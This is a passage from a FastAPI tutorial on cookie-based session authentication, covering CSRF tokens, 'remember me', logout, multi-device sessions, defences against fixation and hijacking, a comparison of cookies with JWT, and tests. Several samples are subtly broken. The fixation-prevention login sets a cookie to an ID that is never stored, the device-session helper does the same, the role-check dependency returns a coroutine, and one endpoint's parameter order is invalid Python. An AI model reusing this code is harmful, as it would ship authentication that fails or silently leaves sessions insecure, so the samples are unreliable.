        secure=True,
        samesite="lax",
        path="/"
    )

    # Step 4: Set CSRF cookie (for JavaScript access)
    response.set_cookie(
        key="csrf_token",
        value=csrf_token,
        max_age=30*24*60*60 if credentials.remember_me else 2*60*60,
        httponly=False,  # JavaScript needs access
        secure=True,
        samesite="lax",
        path="/"
    )

    # Log successful login
    log_successful_login(user.id, request.client.host)

    return {
        "message": "Logged in successfully",
        "user": {
            "id": user.id,
            "username": user.username,
            "role": user.role
        },
        "csrf_token": csrf_token  # Also in response for initial page load
    }
```

### 7.2 Session Validation Dependency

```python
from fastapi import Depends, Cookie, HTTPException, Request
from typing import Annotated

async def get_current_session(
    session_id: Annotated[str | None, Cookie()] = None,
    request: Request = None
) -> dict:
    """
    Dependency to get and validate current session.

    Returns:
        Session data dict

    Raises:
        HTTPException if session invalid
    """
    if not session_id:
        raise HTTPException(
            status_code=401,
            detail="Not authenticated",
            headers={"WWW-Authenticate": "Cookie"}
        )

    # Get session from Redis
    session = session_manager.get(session_id)

    if not session:
        raise HTTPException(
            status_code=401,
            detail="Session expired or invalid"
        )

    # Optional: Verify IP consistency
    if request and session.get("ip_address"):
        current_ip = request.client.host
        stored_ip = session["ip_address"]

        if current_ip != stored_ip:
            log_security_event("ip_changed", session_id, stored_ip, current_ip)
            # Optionally invalidate session

    return session

async def get_current_user(
    session: Annotated[dict, Depends(get_current_session)],
    db: Session = Depends(get_db)
) -> User:
    """
    Dependency to get current user from session.

    Returns:
        User object
    """
    user = db.query(User).filter(User.id == session["user_id"]).first()

    if not user:
        raise HTTPException(status_code=401, detail="User not found")

    return user

async def require_role(role: str):
    """
    Dependency factory for role-based access control.
    """
    async def role_checker(
        session: Annotated[dict, Depends(get_current_session)]
    ):
        if session.get("role") != role:
            raise HTTPException(
                status_code=403,
                detail=f"Requires {role} role"
            )
        return session

    return role_checker
```

### 7.3 Protected Endpoints

```python
@app.get("/profile")
async def get_profile(
    current_user: Annotated[User, Depends(get_current_user)]
):
    """
    User profile endpoint (session protected).
    """
    return {
        "id": current_user.id,
        "username": current_user.username,
        "email": current_user.email,
        "role": current_user.role
    }

@app.get("/admin/dashboard")
async def admin_dashboard(
    session: Annotated[dict, Depends(require_role("admin"))]
):
    """
    Admin-only endpoint.
    """
    return {
        "message": "Admin dashboard",
        "admin_user": session["username"]
    }

@app.post("/update-profile")
async def update_profile(
    email: Annotated[str, Form()],
    csrf_token: Annotated[str, Form()],
    current_user: Annotated[User, Depends(get_current_user)],
    session: Annotated[dict, Depends(get_current_session)],
    db: Session = Depends(get_db)
):
    """
    Update profile (CSRF protected).
    """
    # Verify CSRF token
    if not secrets.compare_digest(csrf_token, session.get("csrf_token", "")):
        raise HTTPException(status_code=403, detail="Invalid CSRF token")

    # Update user
    current_user.email = email
    db.commit()

    return {"message": "Profile updated successfully"}

@app.get("/api/data")
async def get_data(
    session: Annotated[dict, Depends(get_current_session)]
):
    """
    API endpoint with session authentication.
    """
    return {
        "user_id": session["user_id"],
        "data": ["item1", "item2", "item3"]
    }

@app.post("/api/create")
async def create_item(
    item_data: dict,
    csrf_token: str = Header(None, alias="X-CSRF-Token"),
    session: Annotated[dict, Depends(get_current_session)]
):
    """
    API endpoint with CSRF protection for AJAX requests.
    """
    # Verify CSRF token from header
    if not csrf_token or not secrets.compare_digest(
        csrf_token,
        session.get("csrf_token", "")
    ):
        raise HTTPException(status_code=403, detail="Invalid CSRF token")

    # Process creation
    return {"message": "Item created", "data": item_data}
```

### 7.4 Logout Endpoint

```python
@app.post("/logout")
async def logout(
    response: Response,
    session_id: Annotated[str | None, Cookie()] = None
):
    """
    Logout: delete session and cookies.
    """
    if session_id:
        # Get session for logging
        session = session_manager.get(session_id)

        if session:
            log_activity("logout", session["user_id"], session_id)

        # Delete session from Redis
        session_manager.delete(session_id)

    # Delete cookies
    response.delete_cookie(key="session_id", path="/")
    response.delete_cookie(key="csrf_token", path="/")

    return {"message": "Logged out successfully"}

@app.post("/logout-all-devices")
async def logout_all_devices(
    response: Response,
    session: Annotated[dict, Depends(get_current_session)]
):
    """
    Logout from all devices (revoke all sessions).
    """
    user_id = session["user_id"]

    # Delete all user sessions
    deleted_count = session_manager.delete_user_sessions(user_id)

    # Log activity
    log_activity("logout_all_devices", user_id, count=deleted_count)

    # Delete cookies
    response.delete_cookie(key="session_id", path="/")
    response.delete_cookie(key="csrf_token", path="/")

    return {
        "message": f"Logged out from {deleted_count} device(s)"
    }
```

### 7.5 "Remember Me" Functionality

```python
class RememberMeManager:
    """Manage remember me tokens."""

    def __init__(self, redis_client):
        self.redis = redis_client
        self.token_prefix = "remember:"

    def create_token(self, user_id: str, device_id: str | None = None) -> str:
        """
        Create long-lived remember me token.

        Args:
            user_id: User ID
            device_id: Optional device identifier

        Returns:
            Remember me token
        """
        token = secrets.token_urlsafe(32)
        token_hash = hashlib.sha256(token.encode()).hexdigest()

        token_data = {
            "user_id": user_id,
            "device_id": device_id,
            "created_at": datetime.utcnow().isoformat()
        }

        # Store for 30 days
        self.redis.setex(
            f"{self.token_prefix}{token_hash}",
            30*24*60*60,
            json.dumps(token_data)
        )

        return token

    def validate_token(self, token: str) -> dict | None:
        """Validate remember me token and return user data."""
        token_hash = hashlib.sha256(token.encode()).hexdigest()

        token_data = self.redis.get(f"{self.token_prefix}{token_hash}")

        if not token_data:
            return None

        return json.loads(token_data)

    def delete_token(self, token: str):
        """Delete remember me token."""
        token_hash = hashlib.sha256(token.encode()).hexdigest()
        self.redis.delete(f"{self.token_prefix}{token_hash}")

remember_me_manager = RememberMeManager(redis_client)

@app.post("/login-with-remember-me")
async def login_with_remember_me(
    response: Response,
    request: Request,
    credentials: LoginRequest,
    db: Session = Depends(get_db)
):
    """
    Login with optional "remember me" token.
    """
    # Authenticate user
    user = authenticate_user(db, credentials.username, credentials.password)

    if not user:
        raise HTTPException(status_code=401, detail="Invalid credentials")

    # Create session (short-lived)
    session_id = session_manager.create(
        user_id=user.id,
        data={"username": user.username, "role": user.role},
        expires_in=2*60*60  # 2 hours
    )

    # Set session cookie
    response.set_cookie(
        key="session_id",
        value=session_id,
        max_age=2*60*60,
        httponly=True,
        secure=True,
        samesite="lax"
    )

    # If remember me, create long-lived token
    if credentials.remember_me:
        device_id = request.headers.get("User-Agent")
        remember_token = remember_me_manager.create_token(user.id, device_id)

        # Set remember me cookie
        response.set_cookie(
            key="remember_token",
            value=remember_token,
            max_age=30*24*60*60,  # 30 days
            httponly=True,
            secure=True,
            samesite="strict"  # More restrictive
        )

    return {"message": "Logged in successfully"}

@app.get("/auto-login")
async def auto_login(
    response: Response,
    remember_token: Annotated[str | None, Cookie()] = None
):
    """
    Automatically log in using remember me token.
    """
    if not remember_token:
        raise HTTPException(status_code=401, detail="No remember token")

    # Validate remember token
    token_data = remember_me_manager.validate_token(remember_token)

    if not token_data:
        response.delete_cookie(key="remember_token")
        raise HTTPException(status_code=401, detail="Invalid remember token")

    # Create new session
    session_id = session_manager.create(
        user_id=token_data["user_id"],
        data={"auto_login": True},
        expires_in=2*60*60
    )

    # Set session cookie
    response.set_cookie(
        key="session_id",
        value=session_id,
        max_age=2*60*60,
        httponly=True,
        secure=True,
        samesite="lax"
    )

    return {
        "message": "Auto-login successful",
        "user_id": token_data["user_id"]
    }
```

---

## 8. Session Security Best Practices

### 8.1 Session ID Security

```python
class SecureSessionID:
    """Best practices for session ID generation and handling."""

    @staticmethod
    def generate() -> str:
        """
        Generate secure session ID.

        Requirements:
        - Cryptographically secure randomness
        - Sufficient entropy (256-bit)
        - URL-safe characters
        """
        return secrets.token_urlsafe(32)

    @staticmethod
    def validate_format(session_id: str) -> bool:
        """Validate session ID format."""
        # Check length (43 chars for 32 bytes base64)
        if len(session_id) != 43:
            return False

        # Check characters (base64url: A-Z, a-z, 0-9, -, _)
        import re
        return bool(re.match(r'^[A-Za-z0-9_-]{43}$', session_id))

    @staticmethod
    def should_rotate(session: dict, max_age_hours: int = 24) -> bool:
        """
        Determine if session ID should be rotated.

        Rotate when:
        - Session older than max_age_hours
        - Privilege escalation occurred
        - IP address changed
        """
        created_at = datetime.fromisoformat(session["created_at"])
        age = datetime.utcnow() - created_at

        return age.total_seconds() > (max_age_hours * 3600)
```

### 8.2 Session Fixation Prevention

**Session Fixation Attack**:

```
1. Attacker gets valid session ID from legitimate site
2. Attacker tricks victim into using that session ID
3. Victim logs in (session ID stays same)
4. Attacker uses same session ID to access victim's account
```

**Prevention**:

```python
@app.post("/login")
async def login_prevent_fixation(response: Response, credentials: LoginRequest):
    """
    Login with session fixation prevention.

    Key: ALWAYS generate new session ID after authentication.
    """
    # Authenticate user
    user = authenticate_user(credentials.username, credentials.password)

    if not user:
        raise HTTPException(status_code=401, detail="Invalid credentials")

    # IMPORTANT: Generate NEW session ID after successful authentication
    # Do NOT reuse any existing session ID
    new_session_id = secrets.token_urlsafe(32)

    session_manager.create(
        user_id=user.id,
        data={"username": user.username},
        expires_in=7200
    )

    # Set new session cookie
    response.set_cookie(
        key="session_id",
        value=new_session_id,
        httponly=True,
        secure=True,
        samesite="lax"
    )

    return {"message": "Logged in"}
```

### 8.3 Session Hijacking Prevention

**Session Hijacking Attack**: Attacker steals valid session ID and uses it to impersonate user.

**Prevention Techniques**:

```python
class SessionHijackingPrevention:
    """Prevent session hijacking attacks."""

    @staticmethod
    def bind_to_ip(
        session: dict,
        current_ip: str,
        strict: bool = False
    ) -> bool:
        """
        Bind session to IP address.

        Args:
            strict: If True, reject on any IP change
                   If False, log but allow
        """
        stored_ip = session.get("ip_address")

        if not stored_ip:
            return True

        if current_ip != stored_ip:
            log_security_event("ip_mismatch", session, current_ip)

            if strict:
                return False

        return True

    @staticmethod
    def bind_to_user_agent(
        session: dict,
        current_ua: str,
        strict: bool = False
    ) -> bool:
        """Bind session to User-Agent string."""
        stored_ua = session.get("user_agent")

        if not stored_ua:
            return True

        if current_ua != stored_ua:
            log_security_event("user_agent_mismatch", session, current_ua)

            if strict:
                return False

        return True

    @staticmethod
    def use_https_only():
        """Enforce HTTPS for all session cookies."""
        return {"secure": True}

    @staticmethod
    def use_httponly():
        """Prevent JavaScript access to session cookie."""
        return {"httponly": True}

    @staticmethod
    def regenerate_on_privilege_change(session_id: str, session: dict) -> str:
        """
        Regenerate session ID when privileges change.
        """
        # Get remaining TTL
        ttl = session_manager.redis.ttl(f"session:{session_id}")

        # Generate new ID
        new_session_id = secrets.token_urlsafe(32)

        # Copy session with new ID
        session_manager.redis.setex(
            f"session:{new_session_id}",
            ttl,
            json.dumps(session)
        )

        # Delete old session
        session_manager.delete(session_id)

        return new_session_id

# Usage in endpoint
@app.get("/protected")
async def protected_endpoint(
    request: Request,
    session: Annotated[dict, Depends(get_current_session)]
):
    """Protected endpoint with hijacking prevention."""

    # Check IP binding
    if not SessionHijackingPrevention.bind_to_ip(
        session,
        request.client.host,
        strict=True
    ):
        raise HTTPException(status_code=401, detail="Session invalid")

    # Check User-Agent
    if not SessionHijackingPrevention.bind_to_user_agent(
        session,
        request.headers.get("User-Agent", ""),
        strict=False  # Log but don't reject (UA can change legitimately)
    ):
        log_warning("User-Agent mismatch")

    return {"data": "Protected resource"}
```

### 8.4 Secure Session Storage

```python
class SecureSessionStorage:
    """Best practices for session data storage."""

    @staticmethod
    def encrypt_sensitive_data(data: str, key: bytes) -> str:
        """
        Encrypt sensitive session data.

        Use when storing sensitive info in sessions.
        """
        from cryptography.fernet import Fernet

        f = Fernet(key)
        encrypted = f.encrypt(data.encode())
        return encrypted.decode()

    @staticmethod
    def hash_session_id_for_storage(session_id: str) -> str:
        """
        Hash session ID before storage.

        Prevents session hijacking if database compromised.
        """
        return hashlib.sha256(session_id.encode()).hexdigest()

    @staticmethod
    def limit_session_data_size(data: dict, max_size: int = 4096) -> bool:
        """
        Validate session data doesn't exceed size limit.
        """
        serialized = json.dumps(data)
        return len(serialized.encode()) <= max_size

    @staticmethod
    def sanitize_session_data(data: dict) -> dict:
        """
        Remove sensitive data before logging/debugging.
        """
        sensitive_keys = ['password', 'credit_card', 'ssn', 'token']

        sanitized = data.copy()
        for key in sensitive_keys:
            if key in sanitized:
                sanitized[key] = "***REDACTED***"

        return sanitized

# Example usage
@app.post("/store-sensitive")
async def store_sensitive_data(
    session_id: Annotated[str, Cookie()],
    sensitive_info: str
):
    """Store sensitive information in session (encrypted)."""

    session = session_manager.get(session_id)

    # Encrypt before storing
    encryption_key = get_encryption_key()  # From secure storage
    encrypted = SecureSessionStorage.encrypt_sensitive_data(
        sensitive_info,
        encryption_key
    )

    session["sensitive_data"] = encrypted

    # Check size
    if not SecureSessionStorage.limit_session_data_size(session):
        raise HTTPException(status_code=400, detail="Session data too large")

    session_manager.update(session_id, session)

    return {"message": "Data stored securely"}
```

---

## 9. Cookies vs JWT Tokens Comparison

### 9.1 Security Comparison

| Security Aspect     | Cookies (Session)            | JWT Tokens                       |
| ------------------- | ---------------------------- | -------------------------------- |
| **XSS Protection**  | ✓ Strong (HttpOnly)          | ✗ Weak (localStorage vulnerable) |
| **CSRF Protection** | Needs implementation         | ✓ Built-in (not auto-sent)       |
| **Token Theft**     | HttpOnly prevents JS access  | Stored in JS-accessible storage  |
| **Revocation**      | ✓ Easy (delete from storage) | ✗ Difficult (requires blacklist) |
| **Secret Exposure** | Server-side only             | Signed but payload visible       |
| **Man-in-Middle**   | Requires HTTPS               | Requires HTTPS                   |

### 9.2 Scalability Comparison

| Aspect                 | Cookies (Session)                 | JWT Tokens                          |
| ---------------------- | --------------------------------- | ----------------------------------- |
| **State**              | Stateful (server stores sessions) | Stateless (token is self-contained) |
| **Storage**            | Redis/Database required           | No server storage needed            |
| **Horizontal Scaling** | Requires shared session store     | Easy (no shared state)              |
| **Memory Usage**       | Server memory/storage             | Client storage only                 |
| **Validation**         | Database lookup (slower)          | Signature verification (faster)     |
| **Load Balancer**      | Sticky sessions or shared storage | Any server can validate             |

**Scaling Patterns**:

**Cookies with Shared Session Store**:

```
[Load Balancer]
    ├── [Server 1] ──┐
    ├── [Server 2] ──┼──> [Redis Cluster]
    └── [Server 3] ──┘
```

**JWT (Stateless)**:

```
[Load Balancer]
    ├── [Server 1] (validates JWT independently)
    ├── [Server 2] (validates JWT independently)
    └── [Server 3] (validates JWT independently)
```

### 9.3 Mobile App Considerations

**Cookies in Mobile Apps**:

```
Pros:
- Works with WebView-based apps
- Automatic cookie management

Cons:
- Native apps need manual cookie handling
- Platform-specific implementations required
- Cookie storage varies by platform
```

**JWT in Mobile Apps**:

```
Pros:
- Platform-agnostic (works everywhere)
- Easy to implement in any HTTP client
- Full control over storage

Cons:
- Manual token management
- Must implement refresh logic
- Storage security varies by platform
```

**Recommendation for Mobile**:

```python
# Use JWT for native mobile apps
# Use cookies for mobile web/WebView apps

@app.post("/mobile/login")
async def mobile_login(credentials: LoginRequest):
    """
    Mobile login: return JWT (not cookie).
    """
    user = authenticate_user(credentials)

    # Generate JWT tokens
    access_token = create_jwt(user.id, expires_in=3600)
    refresh_token = create_jwt(user.id, expires_in=30*24*3600, type="refresh")

    return {
        "access_token": access_token,
        "refresh_token": refresh_token,
        "token_type": "bearer"
    }

@app.post("/web/login")
async def web_login(response: Response, credentials: LoginRequest):
    """
    Web login: use session cookies.
    """
    user = authenticate_user(credentials)

    # Create session
    session_id = session_manager.create(user.id)

    # Set cookie
    response.set_cookie(
        key="session_id",
        value=session_id,
        httponly=True,
        secure=True,
        samesite="lax"
    )

    return {"message": "Logged in"}
```

### 9.4 Browser Considerations

**Cookies**:

```
Pros:
- Native browser support
- Automatic transmission
- HttpOnly security
- SameSite CSRF protection

Cons:
- Cookie size limits (4KB)
- GDPR consent requirements
- Cross-domain complexity
```

**JWT**:

```
Pros:
- No size limits (within reason)
- No cookie consent needed
- Easy cross-domain

Cons:
- Manual implementation needed
- XSS vulnerability if in localStorage
- No automatic cleanup
```

### 9.5 Use Case Decision Matrix

```python
def choose_auth_method(use_case: str) -> str:
    """
    Decision matrix for choosing authentication method.
    """
    decisions = {
        # Traditional web apps
        "server_rendered_app": "cookies",
        "monolithic_web_app": "cookies",
        "form_based_app": "cookies",

        # Modern web apps
        "spa_react_angular": "jwt",
        "api_first_architecture": "jwt",

        # Mobile
        "native_mobile_app": "jwt",
        "mobile_webview": "cookies",

        # Microservices
        "microservices_different_domains": "jwt",
        "microservices_same_domain": "cookies",

        # Security priority
        "high_security_banking": "cookies",  # HttpOnly protection
        "standard_security_ecommerce": "cookies",

        # Scalability priority
        "need_horizontal_scaling": "jwt",  # Stateless
        "single_server_app": "cookies",

        # Third-party integration
        "third_party_api_access": "jwt",
        "internal_app_only": "cookies"
    }

    return decisions.get(use_case, "depends_on_requirements")

# Usage examples
print(choose_auth_method("spa_react_angular"))  # jwt
print(choose_auth_method("server_rendered_app"))  # cookies
print(choose_auth_method("native_mobile_app"))  # jwt
```

---

## 10. Complete Practical Examples

### 10.1 Redis Session System

See implementation in Section 4.6 for complete Redis session manager.

### 10.2 CSRF Protection System

```python
# Complete CSRF protection implementation
from fastapi import FastAPI, Form, Cookie, Request, Response, Depends
from fastapi.templating import Jinja2Templates
from typing import Annotated
import secrets

app = FastAPI()
templates = Jinja2Templates(directory="templates")

class CSRFProtection:
    """Complete CSRF protection system."""

    def __init__(self, session_manager):
        self.session_manager = session_manager

    def generate_token(self, session_id: str) -> str:
        """Generate and store CSRF token in session."""
        csrf_token = secrets.token_urlsafe(32)

        # Store in session
        session = self.session_manager.get(session_id)
        if session:
            session["csrf_token"] = csrf_token
            self.session_manager.update(session_id, session)

        return csrf_token

    def validate_token(
        self,
        token: str,
        session_id: str
    ) -> bool:
        """Validate CSRF token against session."""
        session = self.session_manager.get(session_id)

        if not session:
            return False

        stored_token = session.get("csrf_token")

        if not stored_token:
            return False

        # Constant-time comparison
        return secrets.compare_digest(token, stored_token)

csrf_protection = CSRFProtection(session_manager)

@app.get("/form")
async def get_form(
    request: Request,
    session_id: Annotated[str, Cookie()]
):
    """Render form with CSRF token."""
    csrf_token = csrf_protection.generate_token(session_id)

    return templates.TemplateResponse("form.html", {
        "request": request,
        "csrf_token": csrf_token
    })

@app.post("/submit")
async def submit_form(
    data: Annotated[str, Form()],
    csrf_token: Annotated[str, Form()],
    session_id: Annotated[str, Cookie()]
):
    """Process form with CSRF validation."""
    if not csrf_protection.validate_token(csrf_token, session_id):
        raise HTTPException(status_code=403, detail="Invalid CSRF token")

    # Process form data
    return {"message": "Form submitted successfully"}
```

**HTML Template** (form.html):

```html
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF Protected Form</title>
  </head>
  <body>
    <form method="POST" action="/submit">
      <input type="hidden" name="csrf_token" value="{{ csrf_token }}" />
      <input type="text" name="data" required />
      <button type="submit">Submit</button>
    </form>
  </body>
</html>
```

### 10.3 "Remember Me" Implementation

See complete implementation in Section 7.5.

### 10.4 Multi-Device Session Management

```python
class MultiDeviceSessionManager:
    """Manage sessions across multiple devices."""

    def __init__(self, session_manager):
        self.session_manager = session_manager

    def create_device_session(
        self,
        user_id: str,
        device_info: dict
    ) -> str:
        """
        Create session for specific device.

        Args:
            device_info: {
                "device_name": "iPhone 13",
                "device_type": "mobile",
                "os": "iOS 17",
                "browser": "Safari",
                "ip_address": "192.168.1.100"
            }
        """
        session_id = secrets.token_urlsafe(32)

        session_data = {
            "user_id": user_id,
            "device_id": hashlib.sha256(
                f"{device_info['device_name']}{device_info['ip_address']}".encode()
            ).hexdigest(),
            **device_info,
            "created_at": datetime.utcnow().isoformat()
        }

        self.session_manager.create(
            user_id=user_id,
            data=session_data,
            expires_in=7200
        )

        return session_id

    def get_user_devices(self, user_id: str) -> list[dict]:
        """Get all active devices for user."""
        session_ids = self.session_manager.get_user_sessions(user_id)

        devices = []
        for session_id in session_ids:
            session = self.session_manager.get(session_id)
            if session:
                devices.append({
                    "session_id": session_id,
                    "device_name": session.get("device_name"),
                    "device_type": session.get("device_type"),
                    "last_activity": session.get("last_activity"),
                    "ip_address": session.get("ip_address")
                })

        return devices

    def revoke_device_session(self, session_id: str, user_id: str) -> bool:
        """Revoke session for specific device."""
        session = self.session_manager.get(session_id)

        # Verify session belongs to user
        if not session or session.get("user_id") != user_id:
            return False

        self.session_manager.delete(session_id)
        return True

device_manager = MultiDeviceSessionManager(session_manager)

@app.get("/devices")
async def list_devices(
    session: Annotated[dict, Depends(get_current_session)]
):
    """List all active devices for current user."""
    devices = device_manager.get_user_devices(session["user_id"])

    return {"devices": devices}

@app.delete("/devices/{session_id}")
async def revoke_device(
    session_id: str,
    current_session: Annotated[dict, Depends(get_current_session)]
):
    """Revoke session for specific device."""
    success = device_manager.revoke_device_session(
        session_id,
        current_session["user_id"]
    )

    if not success:
        raise HTTPException(status_code=404, detail="Device session not found")

    return {"message": "Device session revoked"}
```

---

## 11. Testing Cookie Authentication

```python
from fastapi.testclient import TestClient
import pytest

client = TestClient(app)

class TestCookieAuthentication:
    """Test suite for cookie-based authentication."""

    def test_login_sets_cookie(self):
        """Login should set session cookie."""
        response = client.post("/login", json={
            "username": "testuser",
            "password": "password123"
        })

        assert response.status_code == 200
        assert "session_id" in response.cookies
        assert "csrf_token" in response.cookies

    def test_cookie_attributes(self):
        """Session cookie should have correct attributes."""
        response = client.post("/login", json={
            "username": "testuser",
            "password": "password123"
        })

        cookie = response.cookies.get("session_id")

        # Check cookie exists
        assert cookie is not None

        # Note: httponly, secure, samesite not directly accessible
        # But can verify in set-cookie header
        set_cookie_header = response.headers.get("set-cookie")
        assert "HttpOnly" in set_cookie_header
        assert "SameSite=lax" in set_cookie_header.lower()

    def test_protected_endpoint_requires_cookie(self):
        """Protected endpoint should require session cookie."""
        response = client.get("/profile")
        assert response.status_code == 401

    def test_protected_endpoint_with_cookie(self):
        """Protected endpoint should work with valid cookie."""
        # Login to get cookie
        login_response = client.post("/login", json={
            "username": "testuser",
            "password": "password123"
        })

        # Extract cookie
        session_cookie = login_response.cookies.get("session_id")

        # Access protected endpoint
        response = client.get(
            "/profile",
            cookies={"session_id": session_cookie}
        )

        assert response.status_code == 200
        assert "username" in response.json()

    def test_csrf_protection(self):
        """Form submission should require valid CSRF token."""
        # Login
        login_response = client.post("/login", json={
            "username": "testuser",
            "password": "password123"
        })

        session_cookie = login_response.cookies.get("session_id")
        csrf_token = login_response.json().get("csrf_token")

        # Attempt without CSRF token
        response = client.post(
            "/update-profile",
            data={"email": "new@example.com"},
            cookies={"session_id": session_cookie}
        )
        assert response.status_code == 422  # Missing csrf_token field

        # With invalid CSRF token
        response = client.post(
            "/update-profile",
            data={"email": "new@example.com", "csrf_token": "invalid"},
            cookies={"session_id": session_cookie}
        )
        assert response.status_code == 403

        # With valid CSRF token
        response = client.post(
            "/update-profile",
            data={"email": "new@example.com", "csrf_token": csrf_token},
            cookies={"session_id": session_cookie}
        )
        assert response.status_code == 200

    def test_logout_deletes_session(self):
        """Logout should delete session and cookies."""
        # Login
        login_response = client.post("/login", json={
            "username": "testuser",
            "password": "password123"
        })

        session_cookie = login_response.cookies.get("session_id")

        # Logout
        logout_response = client.post(
            "/logout",
            cookies={"session_id": session_cookie}
        )

        assert logout_response.status_code == 200

        # Try to use session after logout
        response = client.get(
            "/profile",
            cookies={"session_id": session_cookie}
        )
        assert response.status_code == 401

    def test_session_expiration(self):
        """Expired session should not grant access."""
        # This requires mocking time or waiting
        # Example with mocked time:

        import time
        from unittest.mock import patch

        # Login
        login_response = client.post("/login", json={
            "username": "testuser",
            "password": "password123"
        })

        session_cookie = login_response.cookies.get("session_id")

        # Mock time to simulate expiration
        with patch('datetime.datetime') as mock_datetime:
            mock_datetime.utcnow.return_value = datetime.utcnow() + timedelta(hours=3)

            response = client.get(
                "/profile",
                cookies={"session_id": session_cookie}
            )

            assert response.status_code == 401
```

---

## 12. Common Pitfalls

1. **Storing sensitive data in cookies** - Keep sessions server-side, store only session ID in cookie
2. **Not using HttpOnly flag** - Session cookies accessible via JavaScript (XSS risk)
3. **Not using Secure flag in production** - Cookies transmitted over HTTP
4. **Forgetting CSRF protection** - Cookie-based auth vulnerable without CSRF tokens
5. **Using predictable session IDs** - Use cryptographically secure random generators
6. **Not invalidating sessions on logout** - Session remains valid after logout
7. **Session fixation vulnerability** - Always regenerate session ID after login
8. **Infinite session lifetime** - Always set expiration for security
9. **Not binding sessions to user characteristics** - Consider IP/User-Agent validation
10. **Storing sessions only in memory** - Lost on server restart, use Redis/database

---

## 13. Key Takeaways

1. **Cookies are browser-managed** data storage sent automatically with requests
2. **HttpOnly cookies prevent XSS** attacks on session IDs
3. **SameSite attribute provides CSRF** protection
4. **Sessions store state server-side**, cookies contain only session ID
5. **Redis is ideal for session storage** - fast, persistent, automatic expiration
6. **Always regenerate session ID** after login to prevent fixation
7. **CSRF tokens required** for state-changing operations with cookies
8. **Remember me functionality** uses separate long-lived tokens
9. **Session security requires** HTTPS, proper attributes, and lifecycle management
10. **Choose cookies for traditional** web apps, JWT for APIs/SPAs

---

## 14. Practice Exercises

**Exercise 1: Implement Secure Login System**

Create a complete login system with:

- Session creation with proper cookie attributes
- CSRF token generation and validation
- Logout functionality
- Session expiration handling

**Exercise 2: Multi-Device Session Management**

Build a system that:

- Tracks active sessions per device
- Shows list of active devices to user
- Allows revoking individual device sessions
- Implements "logout from all devices"

**Exercise 3: CSRF Protection**

Implement comprehensive CSRF protection:

- Token generation for each session
- Validation on all state-changing operations
- Both form-based and AJAX-based protection
- Test with automated CSRF attack attempts

**Exercise 4: Remember Me Feature**

Create "remember me" functionality:

- Long-lived remember tokens (30 days)
- Automatic login from remember token
- Secure token storage and validation
- Token revocation capability

**Exercise 5: Session Security Audit**

Review provided codebase and:

- Identify session security vulnerabilities
- Test for session fixation
- Test for session hijacking vectors
- Propose fixes with code examples
- Implement secure session rotation
